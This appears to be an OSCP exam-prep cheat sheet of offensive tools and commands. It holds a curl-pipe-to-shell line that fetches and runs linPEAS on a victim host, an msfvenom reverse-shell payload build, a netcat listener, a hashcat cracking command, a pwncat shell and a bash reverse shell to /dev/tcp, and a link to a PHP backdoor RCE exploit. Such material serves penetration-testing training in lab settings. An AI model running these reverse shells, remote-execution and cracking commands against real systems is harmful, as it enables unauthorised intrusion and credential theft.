 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator

##### PWNCAT - Unbreakable Persistent Reverse Shell (Also IDS/Firewall Evasion :)
https://github.com/cytopia/pwncat

##### Linpeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

    curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
    
 ###### Local network
    sudo python -m SimpleHTTPServer 80 #Host
    curl 10.10.10.10/linpeas.sh | sh #Victim

##### Linux Privilege Checker
https://github.com/sleventyeleven/linuxprivchecker

Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
NETCAT | nc -nvlp 443   *(Creates a local listener)*
CRACKING | hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
SHELL | Resolve "TERM environment variable not set":  *$ *export TERM=xterm**
SHELL | Fully interactive shell (Python): *$ python3 -c 'import pty; pty.spawn("/bin/bash")'*
SHELL | PWNCAT Ex. *$ pwncat -e '/bin/bash' example.com 4444*
SHELL | Reverse Bash Shell *$ bash -i >& /dev/tcp/10.10.10.10/4443 0>&1*


## Exploits
PHP 8.1.0-dev Backdoor RCE
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
